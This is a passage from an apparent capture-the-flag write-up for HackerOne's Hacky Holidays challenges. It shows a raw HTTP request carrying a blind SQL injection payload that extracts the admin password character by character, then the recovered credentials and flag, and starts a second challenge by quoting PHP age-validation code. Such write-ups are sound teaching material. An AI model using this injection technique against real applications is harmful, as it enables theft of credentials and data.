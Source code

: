 ```
POST /evil-quiz HTTP/1.1
Host: hackyholidays.h1ctf.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://hackyholidays.h1ctf.com/evil-quiz
Content-Type: application/x-www-form-urlencoded
Content-Length: 121
Origin: https://hackyholidays.h1ctf.com
Connection: close
Cookie: session=b0e2497adfcffb94cadce208c7aff1c3
Upgrade-Insecure-Requests: 1

name=test'+union+select+9,9,9,9+union+select+username,password,7,7+from+admin+where+password+like+'s3creT%25'#
```

The `union` statement in the above request causes the SQL result to either show a count of either 2 or 3.  A count of 3 will only be returned if the statement `select username,password,7,7 from admin where password like 's3creT%'` is true (which it is):

{F1129102}


Character by character the results were extracted until the full password for the `admin` user was discovered: `S3creT_p4ssw0rd-$`.  The special characters in the password threw me off for a bit - turns out MySQL doesn't know how to compare whether a `_` is lower or higher than the letter `a`.  I *also* discovered that a MySQL `like` statement does a case-insensitive compare. 

Logging in with the extracted credentials revealed the flag: `flag{6e8a2df4-5b14-400f-a85a-08a260b59135}`

## Challenge 10 - Signup Manager

Even thought this was challenge number 10 it ended up being pretty quick to complete.  The system allows for new users to be registered, but only admin users have full access.  Examining the page source showed a reference to: `https://hackyholidays.h1ctf.com/signup-manager/README.md`.  This revealed that the full source code for this challenge could be downloaded.  It also showed that a user would only be marked as `admin` if there was a `Y` in the correct user field.  By default there would be a `N`.

Examining the PHP files used for the challenge showed that `index.php` did all the main work.  Each user field (first name, last name, etc) would have a fixed size.  Anything larger would be truncated.  The exception to this was the `age` field which would take an integer value instead of a fixed length string.  Checks were in place to ensure that the age value could only be a maximum of 3 digits.  The following code handled this:

```
if (!is_numeric($_POST["age"])) {
                $errors[] = 'Age entered is invalid';
            }
            if (strlen($_POST["age"]) > 3) {
                $errors[] = 'Age entered is too long';
            }
            $age = intval($_POST["age"]);
```
